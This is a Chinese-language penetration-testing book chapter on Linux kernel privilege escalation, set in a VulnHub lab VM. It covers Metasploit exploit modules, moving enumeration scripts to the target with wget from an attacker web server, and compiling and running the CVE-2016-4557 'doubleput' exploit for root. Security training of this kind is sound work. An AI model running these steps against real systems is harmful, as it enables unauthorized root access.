


# 第十章：Linux 内核漏洞

现在，你已经对如何在 Windows 系统上提升特权有了基本了解，我们可以开始探索如何在 Linux 系统上提升特权。本章中，我们将探索的第一个特权提升攻击向量是内核漏洞利用。

本章中，你将学习如何手动和自动地识别、传输和利用 Linux 上的内核漏洞。这个过程将与我们在*第五章*中探讨的 Windows 内核漏洞利用过程相类似，其中我们探讨了 Windows 上的内核漏洞利用过程。

我们将从了解 Linux 内核的工作原理以及如何通过使用本地枚举脚本识别 Linux 上的内核漏洞开始。之后，我们将探讨修改、编译和传输内核漏洞到目标系统的过程。

本章我们将讨论以下主要内容：

+   理解 Linux 内核

+   使用 Metasploit 进行内核漏洞利用

+   手动内核漏洞利用

# 技术要求

要跟随本章的演示，你需要确保你熟悉 Linux 终端命令。

你可以在这里查看本章的代码示例：[`bit.ly/3igFnys`](https://bit.ly/3igFnys)

# 理解 Linux 内核

你应该已经对内核的工作原理有了清晰的了解，因为我们在*第五章*中深入探讨了内核的结构、目的和功能。因此，本章我们只会关注 Linux 内核的结构及其工作原理。

Linux 内核是一个类 Unix 的开源、单体化和模块化的操作系统内核，最初由 Linus Torvalds 于 1991 年创建，后来成为 GNU 操作系统的主要内核。Linux 内核与 GNU 工具链的结合，促成了大量使用 Linux 内核的操作系统的发展，这些操作系统通常被称为 Linux 发行版。Linux 发行版是利用 Linux 内核，并将其与各种工具和实用程序配对，以满足特定用例或行业的操作系统。

与 Windows NT 类似，Linux 内核由两种主要的操作模式组成，这决定了对系统资源和硬件的访问：

+   **用户空间**：用户空间是一个不具特权的、隔离的内存区域，专门用于运行操作系统内核外的用户程序和服务。默认情况下，服务与内核隔离，因此其特权有限。

+   **内核空间**：内核空间是一个特权的、隔离的内存区域，用于运行内核。由于内核负责处理的进程和功能的性质，内核空间具有特权。

如下图所示，使用两种主要操作模式来隔离资源和硬件的访问：

图 10.1 – Linux 内核结构

用户空间的应用程序和服务可以通过使用系统调用与内核空间进行通信，如前面的图示所示。用户空间和内核空间之间的交互是通过 GNU C 库来实现的，因此，系统调用接口也承担着这一职能。

系统调用接口负责处理来自用户空间到内核的系统调用。

内核空间可以完全访问系统的硬件和资源，并负责管理系统服务以及来自用户空间的系统调用。

## 理解 Linux 内核漏洞利用过程

Linux 内核容易受到各种攻击，这些攻击可能导致漏洞利用或权限提升。在本章中，我们将主要关注如何正确识别并利用 Linux 内核中的漏洞来提升我们的权限。

考虑到内核在特权内核空间中运行，任何允许执行任意代码的内核漏洞将以特权状态运行，从而为我们提供一个提升的会话。

这个过程将采取双管齐下的方法，涵盖手动和自动利用内核漏洞的过程。

Linux 上的内核漏洞利用通常针对 Linux 内核中的漏洞，以执行任意代码。这有助于运行特权系统命令或获得系统 shell。这个过程将根据目标 Linux 内核的版本和使用的内核漏洞利用方式有所不同。

在本章中，我们将需要在虚拟黑客实验室中设置一个 Ubuntu 16.04 目标虚拟机。

我们可以使用 Metasploit 框架开始内核漏洞利用过程，这将使我们能够自动化在 Windows 上识别和利用内核漏洞的过程。

## 设置我们的环境

在本章中，我们将使用一个经过定制的 Ubuntu 16.04 虚拟机，该虚拟机已被配置为存在漏洞。这将为我们提供一个强大的环境来学习和演示内核漏洞利用。

要开始设置虚拟机，请按照以下步骤操作：

1.  该过程的第一步是下载用于通过 VirtualBox 设置目标系统的虚拟机文件。必要的文件可以从[`download.vulnhub.com/stapler/Stapler.zip`](https://download.vulnhub.com/stapler/Stapler.zip)下载。

1.  下载 ZIP 文件后，您需要解压其内容。您将看到一个文件夹，其中包含**开放虚拟化格式**（**OVF**）和**虚拟机磁盘**（**VMDK**）文件，这些文件是运行虚拟机所必需的，如下图所示：

    图 10.2 – 虚拟机文件

1.  要将虚拟机导入 VirtualBox，您需要双击 `Stapler.ovf` 文件。您将看到 VirtualBox 导入向导，如下图所示：

    图 10.3 – VirtualBox 导入向导

    VirtualBox 导入向导将提示您指定虚拟机的基础文件夹，如前述截图所示。完成此操作后，您可以点击 **导入** 按钮开始导入过程。

1.  一旦虚拟机已导入到 VirtualBox，您需要将其添加到我们在*第二章*中创建的 **虚拟黑客实验室** 网络，如以下截图所示：

图 10.4 – VirtualBox 网络设置

配置虚拟机使用自定义网络后，您可以保存更改并启动虚拟机以开始操作。

注意

您需要在系统中获得初步访问权限，以便跟随本章中的技术和演示。以下利用指南说明了如何在目标虚拟机上获取 meterpreter 会话：[`download.vulnhub.com/stapler/slides.pdf`](https://download.vulnhub.com/stapler/slides.pdf)。

现在我们已经设置好环境和目标虚拟机，可以开始使用 Metasploit 进行权限提升过程。

# 使用 Metasploit 进行内核利用

我们可以通过查看如何使用 `Metasploit` 框架进行内核利用来开始内核利用过程。Metasploit 框架提供了自动化和模块化的解决方案，简化了利用过程。

在本节中，我们的目标系统将是 Ubuntu 16.04 虚拟机。作为前提条件，请确保您已在系统上获得初步的访问权限，并且拥有一个 `meterpreter` 会话：

1.  第一项任务是扫描目标以寻找潜在的漏洞。为此，我们将使用 `local_exploit_suggester` 模块。此过程在前一章节中已经详细讨论过。

1.  我们可以通过运行以下命令在 Metasploit 中加载模块：

    **使用 post/multi/recon/local_exploit_suggester**

1.  加载模块后，您需要为该模块设置 `SESSION` 选项。`SESSION` 选项需要您的 meterpreter 会话的会话 ID。可以通过运行以下命令来完成：

    **设置 SESSION <SESSION-ID>**

    如以下截图所示，`SESSION` 选项应显示您设置的会话 ID：

    

    图 10.5 – local_exploit_suggester 选项

1.  配置好模块选项后，我们可以通过运行以下命令来启动模块：

    **运行**

    这将开始扫描过程，在此过程中，模块将开始输出目标可能存在的各种漏洞，正如以下截图所示：

    

    图 10.6 – local_exploit_suggester 结果

1.  现在，我们可以开始测试`local_exploit_suggester`推荐的各种漏洞利用模块。输出中的前几个模块通常有更高的成功几率。我们可以通过加载模块来测试列表中的第二个模块，正如前面的截图所示。可以通过运行以下命令来完成此操作：

    **使用 /exploit/linux/local/netfilter_priv_esc_ipv4**

    此内核漏洞利用将利用 Linux 内核版本低于 4.6.3 的`netfilter` bug，并要求启用并加载`iptables`。该漏洞利用还要求安装`libc6-dev-i386`来编译漏洞利用程序。有关此漏洞利用的更多信息，请参阅：[`www.rapid7.com/db/modules/exploit/linux/local/netfilter_priv_esc_ipv4/`](https://www.rapid7.com/db/modules/exploit/linux/local/netfilter_priv_esc_ipv4/)。

1.  加载模块后，您需要设置模块选项，这些选项将包括 meterpreter 会话 ID 和新 meterpreter 会话的有效负载选项，正如以下截图所示：

    图 10.7 – 内核漏洞利用模块选项

1.  我们现在可以通过运行以下命令来执行内核漏洞利用模块：

    **漏洞利用**

    在这种情况下，漏洞利用失败是因为`libc6-dev-i386`未安装，如以下截图所示：

图 10.8 – Metasploit 内核漏洞利用失败

另外，运行`local_exploit_suggester`建议的其他内核漏洞利用将失败。这是一个重要的教训：您不能总是依赖使用自动化的 Metasploit 模块来获得访问权限或提升目标系统的权限。试错是权限提升过程中一个重要的部分。

由于此路径未能产生任何结果，我们需要采用更手动的方式来识别正确的内核漏洞利用方法。让我们从查看如何通过各种枚举脚本列举目标系统的相关信息开始。

# 手动内核漏洞利用

在某些情况下，您可能无法成功使用 Metasploit 模块提升权限，可能无法访问带有 meterpreter 会话的目标，或者您可能通过手动漏洞利用技术（例如 Web Shell）利用了目标。在这种情况下，您将通过标准反向 Shell 进行访问，通常是通过`netcat`来实现的。这带来了一些问题：您如何扫描目标以寻找潜在的内核漏洞？以及如何将内核漏洞传输到目标？

这些是我们将在本节中解决的问题；我们选择的目标是本章早些时候设置的 Ubuntu 16.04 虚拟机。

## 本地枚举工具

第一步是扫描并识别潜在的内核漏洞。这可以通过使用 `linux-exploit-suggester` 或其他枚举脚本和工具来完成。在本例中，我们将利用 `linPEAS` 脚本来枚举目标信息。

注意

linPEAS 是一个本地的 Linux 枚举脚本，用于搜索和扫描潜在的漏洞，然后枚举所有可用于进行权限提升攻击的重要系统信息。

`linPEAS` 二进制文件可以从以下 GitHub 仓库下载：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)。

请确保下载 `linpeas` Bash 脚本，如以下截图所示：

图 10.9 – linPEAS Bash 脚本

在将 Bash 脚本下载到我们的 Kali 虚拟机后，我们需要将`linpeas.sh`文件传输到目标虚拟机。这无法自动完成，因为我们没有 meterpreter 会话。因此，我们需要利用 Linux 特有的工具来下载二进制文件。

## 文件传输

为了将`linpeas.sh`文件传输到我们的目标，我们需要在 Kali 虚拟机上搭建一个 Web 服务器。这个服务器将用来托管文件，以便我们可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 `SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储 `linpeas.sh` 二进制文件的目录中运行以下命令来完成：

    `sudo python -m SimpleHTTPServer 80`

    注意

    如果端口 `80` 已被占用，您还可以使用系统上的任何其他开放端口。

    另外，您还可以通过运行以下命令，利用 Python 3 的 `http.server` 模块：

    `sudo python3 -m http.server 80`

    正如以下截图所示，`SimpleHTTPServer` 将在 Kali 虚拟机 IP 地址的 `80` 端口上提供目录中的文件：

    

    图 10.10 – SimpleHTTPServer linpeas.sh

1.  为了将 `linpeas.sh` 文件下载到目标系统，我们可以利用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个我们有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：

    图 10.11 – Linux 临时目录

1.  现在，我们可以使用 `wget` 工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    上述命令的输出可以在以下截图中看到：

图 10.12 – wget 成功传输

如前所示的截图，如果传输成功，`linpeas.sh` 文件应该已被下载并以我们指定的名称保存。

现在，我们可以使用 `linpeas.sh` 脚本来枚举重要的系统信息，这些信息可以帮助我们提升权限。

## 枚举系统信息

`linpeas.sh` 脚本会列举大量信息，并执行各种检查以发现目标系统上的潜在漏洞。然而，它并不会列出潜在的内核漏洞。在内核漏洞的上下文中，我们可以使用 `linpeas.sh` 脚本来枚举系统信息，例如内核版本。这可以通过以下步骤来完成：

1.  要列举所有重要的系统信息，我们需要运行 `linpeas.sh` 脚本。然而，在此之前，我们需要确保该脚本具有可执行权限。可以通过在目标系统上运行以下命令来完成：

    `chmod +x linpeas.sh`

1.  现在，我们可以通过在目标系统上运行以下命令来运行 `linpeas.sh` 脚本：

    `./linpeas.sh -o SysI`

    `SysI` 选项用于将脚本的结果限制为仅系统信息。这主要是因为 `linpeas.sh` 脚本会生成大量输出。

    如下截图所示，脚本会列举系统信息，包括已安装的内核版本、Linux 发行版版本以及代号：

图 10.13 – linPEAS 系统信息

在这种情况下，我们的目标系统运行的是 Ubuntu 16.04 LTS，内核版本为 4.4.0-21。我们可以利用这些信息来识别影响此版本内核的特定漏洞。发行版 ID、版本号和代号也非常重要，因为某些内核漏洞是专门为特定的 Linux 发行版设计的。

`linPEAS` 脚本没有提供任何潜在的内核漏洞，可以用于提升我们的权限。因此，我们必须使用其他枚举脚本。

注意

`linPEAS` 脚本列举了许多有用的信息，这些信息将在本书的后续章节中非常有用，尤其是在我们深入探讨其他 Linux 提权技巧时。

## 枚举内核漏洞

我们可以使用`linux-exploit-suggester`来枚举我们的系统信息并扫描潜在的内核漏洞。`linux-exploit-suggester`脚本可以从[`github.com/mzet-/linux-exploit-suggester`](https://github.com/mzet-/linux-exploit-suggester)下载。

建议下载脚本并将其重命名为更简单的文件名。可以通过运行以下命令来实现自动化：

wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

下载脚本后，我们需要将其传输到目标系统。可以按照以下步骤进行操作：

1.  为了在 Kali 虚拟机上搭建一个 Web 服务器，我们可以利用`SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储`les.sh`脚本的目录中运行以下命令来完成此操作：

    `sudo python -m SimpleHTTPServer 80`

1.  要在目标系统上下载`les.sh`脚本，我们可以使用`wget`工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：

    图 10.14 – Linux 临时目录

    现在我们可以使用`wget`工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成此操作：

    `wget http://<KALI-VM-IP>/les.sh`

    输出显示在以下截图中：

    

    图 10.15 – wget 成功传输

    如上所示，如果传输成功，`les.sh`脚本应已下载并以我们指定的名称保存。

1.  现在我们可以使用`les.sh`脚本来枚举我们可以利用来提升权限的潜在内核漏洞。可以通过在目标系统上运行以下命令来完成此操作：

    `./les.sh`

    如下图所示，脚本将枚举所有可用于提升权限的潜在内核漏洞。我们现在可以利用这些信息来确定使用哪个内核漏洞：

    

    图 10.16 – Linux 漏洞建议器 – 内核漏洞

1.  始终建议使用第一个漏洞的输出与枚举工具和脚本结合使用。在本例中，我们将从 CVE-2016-4557 内核漏洞开始。我们需要获取更多有关该漏洞的信息，并了解如何使用它。我们可以通过执行快速 Google 搜索来完成这项任务，如以下截图所示：

    图 10.17 – CVE-2016-4557 Google 搜索

    先前的 Google 搜索揭示了一个 `exploit-db` 的引用，其中包含有关该漏洞的信息、漏洞的源代码以及如何使用它。

    始终建议分析源代码，以确保它不是恶意的，并且按预期工作。这使你能够进行任何必要的修改。

1.  或者，我们也可以使用 `exploit-db` 命令行工具来查询特定的漏洞。可以通过在 Kali 虚拟机上运行以下命令来完成：

    `searchsploit linux kernel 4.4`

    在这种情况下，我们正在查询 `exploit-db` 数据库，寻找与 Linux 内核版本 4.4.0 相关的漏洞。如以下截图所示，我们可以识别相同的漏洞：

图 10.18 – Searchsploit 结果

现在我们已经确定了一个潜在的内核漏洞，我们可以开始将漏洞文件传输到目标并执行它。

## 运行内核漏洞利用

对内核漏洞利用的进一步分析揭示了其功能和任何编译说明（如果需要），如以下截图所示：

图 10.19 – 漏洞利用说明

在这个特定的案例中，我们需要将包含编译脚本和漏洞二进制文件的 ZIP 文件下载到目标系统。完成此操作后，我们需要运行 `doubleput` 二进制文件来提升我们的会话。

关于此漏洞的更多信息可以在这里找到：[`www.exploit-db.com/exploits/39772`](https://www.exploit-db.com/exploits/39772)。

我们可以通过以下步骤运行内核漏洞利用：

1.  该过程的第一步是将漏洞文件下载到你的 Kali 虚拟机。可以通过运行以下命令来完成：

    `wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip`

1.  下载漏洞文件后，我们需要将其传输到目标系统。这可以通过在 Kali 虚拟机上启动本地 Web 服务器，并使用 `SimpleHTTPServer` Python 模块来完成：

    `sudo python -m SimpleHTTPServer 80`

1.  要将二进制文件下载到目标系统，我们可以使用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，正如我们在前面章节中所做的那样。

1.  现在，我们可以使用 `wget` 工具将漏洞文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/39772.zip`

1.  将漏洞文件传输到目标系统后，我们需要解压该文件。可以通过运行以下命令来完成：

    `unzip 39772.zip`

    解压漏洞文件后，你将看到一个名为 `39772` 的目录。进入该目录后，可以看到以下文件：

    

    图 10.20 – 漏洞利用压缩包内容

1.  现在，我们需要提取 `exploit.tar` 压缩包。可以通过运行以下命令来完成：

    `tar xf exploit.tar`

    在提取 `exploit.tar` 压缩包后，你将看到一个目录，如下图所示：

    

    图 10.21 – 漏洞利用目录

    进入此目录后，会显示出一个编译脚本，执行后将生成漏洞利用二进制文件。

1.  我们可以通过运行以下命令来执行漏洞利用编译脚本：

    `./compile.sh`

    漏洞利用脚本将生成一个名为 `doubleput` 的漏洞利用二进制文件，如下图所示：

    

    图 10.22 – 漏洞利用二进制文件

1.  根据漏洞执行指令，我们可以运行`doubleput`二进制文件来获取提升会话。可以通过运行以下命令来实现：

    `./doubleput`

    如果漏洞利用二进制文件成功运行，你应该会收到一个带有 root 权限的提升会话，以下截图中已突出显示：

图 10.23 – 成功的手动内核漏洞利用

通过利用 Linux 内核中的漏洞，我们已成功在目标 Linux 虚拟机上提升了权限。现在，我们可以开始探索其他 Linux 权限提升途径。

# 总结

在本章中，我们首先通过 Metasploit 框架识别并自动运行了内核漏洞利用。接着，我们查看了如何手动识别和传输内核漏洞利用。最后，我们探讨了如何在目标系统上成功执行内核漏洞利用来提升我们的权限。

现在，我们已经学会了如何在 Linux 系统上进行内核漏洞利用，可以开始探索其他 Linux 权限提升途径。

在下一章，我们将探讨如何在 Linux 上挖掘和搜索本地存储的密码，以及这如何导致成功的权限提升。
